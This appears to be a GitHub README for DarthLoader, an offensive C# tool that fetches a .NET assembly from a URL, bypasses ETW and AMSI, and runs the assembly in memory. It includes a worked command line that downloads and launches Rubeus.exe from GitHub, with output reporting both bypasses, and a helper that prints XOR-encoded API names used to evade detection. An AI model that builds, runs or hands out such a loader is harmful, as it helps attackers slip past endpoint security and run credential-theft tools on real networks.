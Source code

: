 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/
- StackOverflow

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Fetch a local .Net assembly into memory.
- Bypass ETW and AMSI by decrypting function strings at runtime via xor key being passed as cmdline arg.
- Decrypt and run the assembly from memory.

```
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123 https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Rubeus.exe test

 _______                     __     __       __                              __
|       \                   |  \   |  \     |  \                            |  \
| $$$$$$$\ ______   ______ _| $$_  | $$____ | $$      ______   ______   ____| $$ ______   ______
| $$  | $$|      \ /      |   $$ \ | $$    \| $$     /      \ |      \ /      $$/      \ /      \
| $$  | $$ \$$$$$$|  $$$$$$\$$$$$$ | $$$$$$$| $$    |  $$$$$$\ \$$$$$$|  $$$$$$|  $$$$$$|  $$$$$$\
| $$  | $$/      $| $$   \$$| $$ __| $$  | $| $$    | $$  | $$/      $| $$  | $| $$    $| $$   \$$
| $$__/ $|  $$$$$$| $$      | $$|  | $$  | $| $$____| $$__/ $|  $$$$$$| $$__| $| $$$$$$$| $$
| $$    $$\$$    $| $$       \$$  $| $$  | $| $$     \$$    $$\$$    $$\$$    $$\$$     | $$
 \$$$$$$$  \$$$$$$$\$$        \$$$$ \$$   \$$\$$$$$$$$\$$$$$$  \$$$$$$$ \$$$$$$$ \$$$$$$$\$$


[!] ETW bypassed!
[!] Amsi bypassed!
[*] Downloading and encrypting assembly with the key: test
[+] Encrypted assembly loaded into memory...
[+] Hit any key to run...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]


<-----SNIP----->
```

## DarthLoaderHelper
This project was made to help Xor encrypt the strings needed for passing into function calls to patch ETW/AMSI in Helpers.cs.  
```
D:\SecToolDev\DarthLoaderHelper.exe testing123

[+] Encrypting with key: testing123
[+] Encrypted string 'etwbypass': 11110416101E064241
[+] Encrypted string 'amsibypass': 1508001D0B1717504140
[+] Encrypted string 'ntdll.dll': 1A1117180540035D5E
[+] Encrypted string 'EtwEventWrite': 311104311F0B094565411D1116
[+] Encrypted string 'amsi.dll': 1508001D470A0B5D
[+] Encrypted string 'AmsiScanBuffer': 3508001D3A0D065F704612031606
```

## To-do
- [X] Paramerize URL 
- [ ] Paramerize assembly parameters
- [ ] remote fetch congfig? (remote fetch assembly URL, Xor key etc.)
- [ ] Help menu
